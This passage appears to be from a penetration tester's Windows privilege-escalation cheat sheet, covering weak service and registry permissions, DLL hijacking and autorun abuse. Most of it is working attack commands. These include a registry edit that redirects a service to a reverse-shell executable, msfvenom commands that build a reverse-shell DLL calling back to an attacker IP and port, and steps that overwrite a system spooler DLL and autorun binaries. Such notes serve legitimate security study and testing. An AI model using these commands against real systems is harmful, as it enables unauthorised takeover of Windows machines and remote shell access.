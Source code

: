 ```bash
# In Winpeas look for a service which has the following
File Permissions: Everyone [AllAccess]
# Replace the executable in the service folder and start the service
sc start <service>
```

## Weak Registry permissions

```bash
# Look for the following in Winpeas services info output
HKLM\system\currentcontrolset\services\<service> (Interactive [FullControl]) # This means we have ful access

accesschk /acceptula -uvwqk <path of registry> # Check for KEY_ALL_ACCESS

# Service Information from regedit, identify the variable which holds the executable
reg query <reg-path>

reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d C:\PrivEsc\reverse.exe /f
# Imagepath is the variable here

net start <service>
```

## DLL Hijacking

1. Find Missing DLLs using Process Monitor, Identify a specific service which looks suspicious and add a filter.
2. Check whether you have write permissions in the directory associated with the service.
```bash
# Create a reverse-shell
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<attaker-IP> LPORT=<listening-port> -f dll -o filename.dll
# Example (Printconfig.dll)
msfvenom -a x64 -p windows/x64/shell_reverse_tcp LHOST=192.168.45.245 LPORT=4444 -f dll -o Printconfig.dll)
# Overwrite Printconfig.dll in:
C:\Windows\System32\spool\drivers\3\
```
3. Copy it to victom machine and them move it to the service associated directory.(Make sure the dll name is similar to missing name)
4. Start listener and restart service, you'll get a shell.

## Autorun

```bash
# For checking, it will display some information with file-location
reg query HKCU\Software\Microsoft\Windows\CurrentVersion\Run
reg query HKLM\Software\Microsoft\Windows\CurrentVersion\Run

# Check the location is writable
accesschk.exe \accepteula -wvu "<path>" # returns FILE_ALL_ACCESS

# Replace the executable with the reverseshell and we need to wait till Admin logins, then we'll have shell
```
